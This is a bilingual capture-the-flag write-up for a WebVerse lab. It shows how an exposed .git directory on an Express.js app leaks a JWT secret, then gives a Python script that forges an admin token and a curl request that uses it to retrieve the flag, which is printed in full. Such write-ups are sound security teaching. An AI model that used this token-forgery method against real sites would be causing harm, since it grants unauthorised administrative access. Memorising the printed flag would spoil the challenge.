


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`


Bài này được gắn nhãn **Web / WebVerse** xoay quanh việc khai thác cơ chế xác thực JWT và lộ mã nguồn qua tệp `.git`.
Cờ thuộc nền tảng đối tác WebVerse (`WEBVERSE{...}`) và hệ thống tự động đồng bộ trạng thái giải theo tài khoản email người dùng.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Khảo sát JWT Session Cookie

Khi truy cập vào web app, người dùng nhận được cookie phiên `wo_session`.
Giải mã phần payload JWT:

```json
{
  "user": "you",
  "team": "Gridiron Gophers",
  "role": "member",
  "iat": 1727334789
}
```

Khi truy cập endpoint quản trị `/commissioner`, hệ thống chặn với mã `403 Forbidden` vì yêu cầu quyền `role === 'commissioner'`.

---

## Bước 2: Khai thác Lộ Thư mục `.git`

Kiểm tra các đường dẫn tĩnh thông dụng, phát hiện máy chủ Express.js cấu hình lộ toàn bộ thư mục `.git`:

```javascript
app.use('/.git', express.static(path.join(__dirname, '.git')));
```

Tải tệp `.git/logs/HEAD` để lấy commit ID gần nhất, sau đó lần theo các đối tượng git (`commit` $\to$ `tree` $\to$ `blob`) để dump toàn bộ source code.

Trong tệp `config/secret.js`, ta tìm thấy khóa bí mật:
```javascript
JWT_SECRET = '5923e2b9c0cb5ae74831b567b27ec6d0';
```

---

## Bước 3: Giả mạo JWT (Token Forgery) và Thu Flag

Sử dụng secret vừa tìm được để ký lại token với `role: "commissioner"`:

```python
import hmac, hashlib, base64, json, time

secret = '5923e2b9c0cb5ae74831b567b27ec6d0'

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('ascii')

header = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}).encode())
payload = b64url(json.dumps({
    "user": "you",
    "team": "Gridiron Gophers",
    "role": "commissioner",
    "iat": int(time.time())
}).encode())

signing_input = f"{header}.{payload}".encode()
signature = b64url(hmac.new(secret.encode(), signing_input, hashlib.sha256).digest())

forged_jwt = f"{header}.{payload}.{signature}"
print("Forged Token:", forged_jwt)
```

Gửi request với cookie `wo_session` mới tới `/commissioner`:

```bash
curl -s -b "wo_session=$forged_jwt" https://<instance_id>.webverselabs-pro.com/commissioner
```

Phản hồi trả về trang quản trị chứa League API Key mang định dạng flag:

⇒ **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`


This article labeled **Web / WebVerse** revolves around exploiting the JWT authentication mechanism and exposing source code through `.git` files. The flag belongs to the WebVerse partner platform (`WEBVERSE{...}`) and the system automatically synchronizes the solution status according to the user's email account.

---

## Solve Flow Diagram



---

## Step 1: Survey JWT Session Cookie

When accessing the web app, users receive the session cookie `wo_session`. Decode the JWT payload:

```json
{
  "user": "you",
  "team": "Gridiron Gophers",
  "role": "member",
  "iat": 1727334789
}
```

When accessing the administrative endpoint `/commissioner`, the system blocks it with code `403 Forbidden` because it requires `role === 'commissioner'` permission.

---

## Step 2: Exploiting the `.git` Directory

Checking common static paths, found that the Express.js server configuration exposed the entire `.git` directory:

```javascript
app.use('/.git', express.static(path.join(__dirname, '.git')));
```

Load the `.git/logs/HEAD` file to get the most recent commit ID, then follow the git objects (`commit` $\to$ `tree` $\to$ `blob`) to dump the entire source code.

In the file `config/secret.js` we find the secret key:
```javascript
JWT_SECRET = '5923e2b9c0cb5ae74831b567b27ec6d0';
```

---

## Step 3: Forge JWT (Token Forgery) and Collect Flag

Use the secret you just found to re-sign the token with `role: "commissioner"`:

```python
import hmac, hashlib, base64, json, time

secret = '5923e2b9c0cb5ae74831b567b27ec6d0'

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('ascii')

header = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}).encode())
payload = b64url(json.dumps({
    "user": "you",
    "team": "Gridiron Gophers",
    "role": "commissioner",
    "iat": int(time.time())
}).encode())

signing_input = f"{header}.{payload}".encode()
signature = b64url(hmac.new(secret.encode(), signing_input, hashlib.sha256).digest())

forged_jwt = f"{header}.{payload}.{signature}"
print("Forged Token:", forged_jwt)
```

Send request with new `wo_session` cookie to `/commissioner`:

```bash
curl -s -b "wo_session=$forged_jwt" https://<instance_id>.webverselabs-pro.com/commissioner
```

The response returned to the admin page containing the League API Key is in flag format:

⇒ **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`
</div>
